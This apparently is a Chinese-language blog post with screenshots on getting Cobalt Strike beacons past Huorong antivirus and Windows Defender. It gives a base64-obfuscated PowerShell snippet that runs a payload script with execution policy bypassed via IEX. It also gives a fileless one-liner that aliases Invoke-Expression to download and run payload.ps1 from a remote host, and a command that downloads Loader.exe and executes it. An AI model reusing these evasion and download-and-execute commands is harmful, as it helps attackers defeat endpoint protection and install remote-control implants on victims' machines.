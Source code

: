 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NCUGtRPU7m4MVKibGFRBGAUfvMFTDwxdrmL5DYoK05m0agyo4nv5ISZg/640?wx_fmt=png)

首次扫描，火绒被火绒杀了。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39Nqs5kJR7MgIKT6D0PoRgichLRpJtULSD3ibKl5BrMKiaVODO1bszKVpjzw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NZZyOr3pu7qMCyRc0d7ZtKLmbuNokQvojEOm0CylzjuwdubZlrQstbQ/640?wx_fmt=png)

在我们对这段代码加入上面我们的混淆以后，火绒便不会杀了，cs 也可以正常上线。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NGEjyHYwKqSZUCEQo9lJoYPzNN0gFZrKEciaMs5NxicwafXTe9bkfhTIA/640?wx_fmt=png)

```
#然后火绒会对这个powershell执行脚本的行为进行行为拦截
#echo ......  | powershell 也会被拦截
powershell #从cmd进入powershell界面
function ConvertFrom-Base64($string) {$bytes  = [Sys;tem.Convert]::FromBase64String($string);$decoded = [System.Text.Encoding]::UTF8.GetString($bytes); return $decoded;}
$a="cG93ZXJzaGVsbCAtZXAgYnlwYXNzIC1mIE"
$b="M6XFVzZXJzXEFkbWluXERlc2t0b3BccGF5bG9hZC5wczE="
IEX(ConvertFrom-Base64($a+$b))
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NicNO1lgU8U6RxjAIXIoqicCaibPSgdwMxtbapwPYdpg4MWaM4pQahyib1Q/640?wx_fmt=png)

不会这样拦截类似 powershell -ep bypass -f ........ps1 了。

这个是笨方法

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NdNHUzTdfEibCby1JZmG42CNnk45p7fTnp8cEQL9icaJEicroDFGEuQGRw/640?wx_fmt=png)

因为测试其他 powershell 脚本的时候，没有被拦截，觉得还是关键字拦截。然后就这样混淆一下。

powershell-cs 无文件上线：

  

```
powershell set-alias -name test -value Invoke-Expression;test(New-Object Net.WebClient).DownloadString('http://x.x.x.x/payload.ps1')
```

**![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39Nmic8vaj9ePEx6dLxPBCIhN9SwXyBIn7oXBM8dxIYA8mO9pPeWnEAudA/640?wx_fmt=png)**

把修改后的 ps 脚本放在服务器上，在有火绒的虚拟机上好像是直接上线了。

windows defender 二话不说拦截，因为连 windows defender 静态免杀都没过。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NPQJhF3PbdCk0KlT7seXTxrlGpZTRGHKiaU2ylfol05nS8SyWrFRal3Q/640?wx_fmt=png)

至于怎么过 windows defender，上篇文章也写过。

不过这时候, 文件是落地的。

```
powershell -Command $clnt = new-object System.Net.WebClient;$url= 'http://X.X.X.X/Loader.exe';$file = ' D:\SYSTEM1.exe ';$clnt.DownloadFile($url,$file);&&D:\SYSTEM1.exe
```
